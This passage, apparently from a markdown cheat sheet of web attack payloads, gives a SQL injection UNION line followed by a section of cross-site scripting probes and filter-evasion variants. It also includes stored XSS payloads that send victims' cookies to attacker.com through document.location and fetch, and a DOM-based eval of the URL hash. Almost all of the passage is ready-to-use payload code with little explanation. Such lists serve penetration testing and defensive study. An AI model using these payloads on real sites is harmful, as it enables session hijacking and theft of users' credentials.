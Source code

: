 ```sql
/* Char() Function */
' UNION SELECT CHAR(97),CHAR(98),CHAR(99)-- -
```

---

## 2. Cross-Site Scripting (XSS)

XSS involves injecting malicious scripts into web pages viewed by other users.

### Detection & Proof-of-Concept
```html
<!-- Basic Probe -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Without Special Characters -->
<IMG SRC=javascript:alert('XSS')>

<!-- Case Insensitive -->
<ScRiPt>alert('XSS')</ScRiPt>

<!-- Event Handlers -->
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<iframe src=javascript:alert('XSS')>

<!-- SVG Vector -->
<svg><script>alert('XSS')</script></svg>

<!-- HTML Entities -->
&lt;script&gt;alert('XSS')&lt;/script&gt;
```

### Advanced XSS Payloads

#### **Stored XSS**
```html
<!-- Comment Field -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

<!-- Profile Field -->
<img src=x onerror="fetch('http://attacker.com/steal', {method:'POST',body:document.cookie})">
```

#### **DOM-Based XSS**
```javascript
// URL: http://example.com/page#<script>alert('XSS')</script>
<script>eval(document.location.hash.slice(1))</script>

// Using document.write
<script>document.write('<img src=x onerror=alert("XSS")>')</script>
```
